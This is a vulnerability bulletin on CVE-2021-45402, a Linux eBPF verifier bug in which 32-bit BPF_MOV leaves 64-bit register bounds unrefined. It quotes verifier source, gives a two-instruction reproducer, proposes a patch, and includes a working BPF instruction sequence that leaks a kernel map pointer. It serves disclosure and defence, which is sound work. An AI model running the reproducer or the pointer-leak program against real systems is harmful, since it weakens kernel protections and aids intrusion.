 ```yaml
---
layout: post
title: "[CVE-2021-45402] eBPF verifier bug: Forgot to update reg bounds after calling zext_32_to_64"
type: "bulletin"
---
```


````
-- [ Description

Most of the time it is needed to call zext_32_to_64() when verifying
32b BPF_ALU instructions. It will finally call
__reg_assign_32_into_64() to update 64b bounds using 32b bounds (1).

```
/* BPF architecture zero extends alu32 ops into 64-bit registesr */
static void zext_32_to_64(struct bpf_reg_state *reg)
{
    reg->var_off = tnum_subreg(reg->var_off);
    __reg_assign_32_into_64(reg);    <---- (1)
}
```

When both s32_min_value and s32_max_value are positive,
__reg_assign_32_into_64() directly pulls the 32-bit signed bounds into
the 64-bit bounds, otherwise it sets the 64-bit bounds to worse case
bounds. It says that the 64-bit bounds will be refined later from tnum
(2). But it actually forgot to do so in some cases, see below.

```
static void __reg_assign_32_into_64(struct bpf_reg_state *reg)
{
    reg->umin_value = reg->u32_min_value;
    reg->umax_value = reg->u32_max_value;
    /* Attempt to pull 32-bit signed bounds into 64-bit bounds
     * but must be positive otherwise set to worse case bounds
     * and refine later from tnum.    <---- (2)
     */
    if (reg->s32_min_value >= 0 && reg->s32_max_value >= 0)
        reg->smax_value = reg->s32_max_value;
    else
        reg->smax_value = U32_MAX;
    if (reg->s32_min_value >= 0)
        reg->smin_value = reg->s32_min_value;
    else
        reg->smin_value = 0;
}
```

The verification of most BPF_ALU instructions will finally execute
into adjust_scalar_min_max_vals() from check_alu_op(), at the end of
this function, it will call zext_32_to_64() when the instruction is a
32-bit ALU operation, and update the bounds immediately afterwards,
things seem to be going well but with one exception.

```
static int adjust_scalar_min_max_vals(struct bpf_verifier_env *env,
                      struct bpf_insn *insn,
                      struct bpf_reg_state *dst_reg,
                      struct bpf_reg_state src_reg)
{
    ...
    /* ALU32 ops are zero extended into 64-bit register */
    if (alu32)
        zext_32_to_64(dst_reg);

    __update_reg_bounds(dst_reg);
    __reg_deduce_bounds(dst_reg);
    __reg_bound_offset(dst_reg);
    return 0;
}
```

Instruction class BPF_MOV, perhaps due to it not requiring complicated
bounds adjustments, will not call the adjust_scalar_min_max_vals(),
and when it is a 32-bit ALU operation, zext_32_to_64() is also called.
But in this case, it seems to forget to update the bounds with tnum as
commented in __reg_assign_32_into_64().

```
static int check_alu_op(struct bpf_verifier_env *env, struct bpf_insn *insn)
{
    ...
    if (opcode == BPF_END || opcode == BPF_NEG) {
        ...
    } else if (opcode == BPF_MOV) {
        ...
        if (BPF_SRC(insn->code) == BPF_X) {
            ...
            if (BPF_CLASS(insn->code) == BPF_ALU64) {
                ...
            } else {
                ...
                zext_32_to_64(dst_reg);    <---- (3)
            }
        }
    } else if (opcode > BPF_END) {
        ...
    } else {    /* all other ALU ops: and, sub, xor, add, ... */
        ...
        return adjust_reg_min_max_vals(env, insn);
    }
    return 0;
}
```

When the source operand is a const scalar, dst_reg will be a const
scalar with smax_value not equal to smin_value. This breaks some
internal assumptions of the verifier, and at least can be used to leak
the pointer of MAP_VALUE.

-- [ Affected Versions

Latest version (v5.16-rc3) of Linux.

-- [ Reproducer

To trigger this bug just need two instructions:

```
BPF_MOV32_IMM(BPF_REG_0, 0xFFFFFFFF)
BPF_MOV32_REG(BPF_REG_0, BPF_REG_0)
```

-- [ Mitigation

Perhaps the easiest way is to copy the codes that update the bounds
from adjust_scalar_min_max_vals().

```
diff --git a/kernel/bpf/verifier.c b/kernel/bpf/verifier.c
index e76b55917905..2d1105ca7c59 100644
--- a/kernel/bpf/verifier.c
+++ b/kernel/bpf/verifier.c
@@ -8098,6 +8098,9 @@ static int check_alu_op(struct bpf_verifier_env
*env, struct bpf_insn *insn)
                                                         insn->dst_reg);
                                }
                                zext_32_to_64(dst_reg);
+                               __update_reg_bounds(dst_reg);
+                               __reg_deduce_bounds(dst_reg);
+                               __reg_bound_offset(dst_reg);
                        }
                } else {
                        /* case: R = imm
```

-- [ Exploitability

off_reg is checked at the beginning of adjust_ptr_min_max_vals(), if
off_reg is the previously described register that had triggered the
bug, dst_reg (i.e, ptr_reg) will be marked as unknown, while dst_reg
contains a pointer to MAP_VALUE, and this branch is not a dead branch.

```
static int adjust_ptr_min_max_vals(struct bpf_verifier_env *env,
                   struct bpf_insn *insn,
                   const struct bpf_reg_state *ptr_reg,
                   const struct bpf_reg_state *off_reg)
{
    ...
    bool known = tnum_is_const(off_reg->var_off);
    s64 smin_val = off_reg->smin_value, smax_val = off_reg->smax_value,
        smin_ptr = ptr_reg->smin_value, smax_ptr = ptr_reg->smax_value;
    u64 umin_val = off_reg->umin_value, umax_val = off_reg->umax_value,
        umin_ptr = ptr_reg->umin_value, umax_ptr = ptr_reg->umax_value;
    if ((known && (smin_val != smax_val || umin_val != umax_val)) ||
        smin_val > smax_val || umin_val > umax_val) {
        /* Taint dst register if offset had invalid bounds derived from
         * e.g. dead branches.
         */
        __mark_reg_unknown(env, dst_reg);
        return 0;
    }
    ...
}
```

So we can leak pointer by the following instructions:

```
struct bpf_insn insn[] =
{
    // load store_map values ptr into reg_0
    BPF_MOV64_IMM(BPF_REG_0, 0), \
    BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4), \
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10), \
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4), \
    BPF_LD_MAP_FD(BPF_REG_1, STORE_MAP_FD), \
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem), \
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1), \
    BPF_EXIT_INSN(), \
    BPF_MOV64_REG(STORE_MAP_REG, BPF_REG_0), \
    BPF_MOV64_REG(CORRUPT_MAP_REG, BPF_REG_0), \
    BPF_MOV32_IMM(BPF_REG_0, 0),
    // trigger the bug
    BPF_MOV32_IMM(EXPLOIT_REG, 0xFFFFFFFF), \
    BPF_MOV32_REG(EXPLOIT_REG, EXPLOIT_REG), \
    // mark CORRUPT_MAP_REG as unknown
    BPF_ALU64_REG(BPF_SUB, CORRUPT_MAP_REG, EXPLOIT_REG), \
    // store the leaked BPF ptr into store map
    BPF_STX_MEM(BPF_DW, STORE_MAP_REG, CORRUPT_MAP_REG, 8), \
    BPF_EXIT_INSN()
};
```

I have spent some time thinking about whether this vulnerability can
be used to achieve LPE, but got nothing. But I think the eBPF
subsystem is very special in exploitability, and full of
possibilities.

-- [ References

* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=3cf2b61eb06765e27fec6799292d9fb46d0b7e60
* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=e572ff80f05c33cd0cb4860f864f5c9c044280b6
* https://git.kernel.org/pub/scm/linux/kernel/git/netdev/net.git/commit/?id=b1a7288dedc6caf9023f2676b4f5ed34cf0d4029

````